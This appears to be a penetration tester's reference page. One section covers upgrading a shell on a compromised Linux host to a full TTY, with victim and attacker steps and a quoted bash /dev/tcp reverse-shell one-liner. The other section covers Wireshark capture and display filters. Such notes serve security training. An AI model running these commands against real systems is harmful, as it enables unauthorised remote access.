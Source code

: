 ## Shells Reference
Upgrade a half shell to full interactive shell on a compromised Linux machine:
```sh
# On victim
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl-z
# On attacker
echo $TERM # note down
stty -a # note down rows and cols
stty raw -echo # this may be enough
fg
# On victim
reset
export SHELL=bash
export TERM=xterm256-color
stty rows 38 columns 116
```

Resources:
* Upgrade to full interactive shell: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
* Reverse Shell Cheatsheet: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
  * `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

Note: Netcat (`nc`) OpenBSD does not support `-e`. Netcat versions: GNU, OpenBSD, Traditional, Netcat6

## Wireshark
Network -> Capture Filters -> Capture Engine -> Display Filters

Capture filters are very useful as they can selectively capture packets that match a certain criteria. The capture filter syntax is different from the usual display filter syntax. An example would be `host 8.8.8.8 and tcp port 80`, to capture packets that involve 8.8.8.8 and tcp port 80 only. Display filters on the other hand does not affect the packet capturing process, it just applies a filter to already captured packets, example `tcp.port == 80`. If you notice, wireshark capture filters are the same as tcpdump capture filters.

Capture filters can be specified in Capture > Options > Capture filter for selected interface, or in Capture > Capture Filters

Follow TCP stream is very useful as in can display the client and server communication in formatted plaintext. It works on web traffic, nc connections (shells, mail, unencrypted connections), etc.

Typical web connection traffic:

1. ARP broadcast looking for the default gateway
2. ARP unicast reply providing the MAC address of the gateway
3. DNS A (IPv4) forward lookup query
4. DNS AAAA (IPv6) forward lookup query
5. DNS A response received
6. DNS AAAA response received
7. 3-way handshake on port 80
8. Initial protocol negotiation in HTTP GET request
